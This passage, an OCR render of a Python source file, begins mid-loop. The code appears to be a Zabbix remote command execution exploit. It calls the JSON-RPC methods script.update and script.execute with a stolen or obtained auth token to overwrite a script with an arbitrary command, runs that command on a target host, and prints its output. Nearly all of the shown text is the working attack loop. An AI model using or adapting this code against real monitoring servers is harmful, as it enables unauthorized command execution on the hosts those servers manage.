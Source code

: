      62             continue
     63 
     64 ### update
     65         payload = {
     66                 "jsonrpc": "2.0",
     67                 "method": "script.update",
     68                 "params": {
     69                     "scriptid": "1",
     70                     "command": ""+cmd+"",
     71                     "execute_on": str(execute_on)
     72                 },
     73                 "auth" : auth['result'],
     74                 "id" : 0,
     75         }
     76 
     77         cmd_upd = requests.post(url, data=json.dumps(payload), headers=(headers))
     78 
     79 ### execute
     80         payload = {
     81                 "jsonrpc": "2.0",
     82                 "method": "script.execute",
     83                 "params": {
     84                     "scriptid": "1",
     85                     "hostid": ""+hostid+""
     86                 },
     87                 "auth" : auth['result'],
     88                 "id" : 0,
     89         }
     90 
     91         cmd_exe = requests.post(url, data=json.dumps(payload), headers=(headers))
     92         cmd_exe = cmd_exe.json()
     93         try:
     94             print cmd_exe["result"]["value"]
     95         except KeyError:
     96             print("[-] Unexpected data: ")
     97             print(cmd_exe)








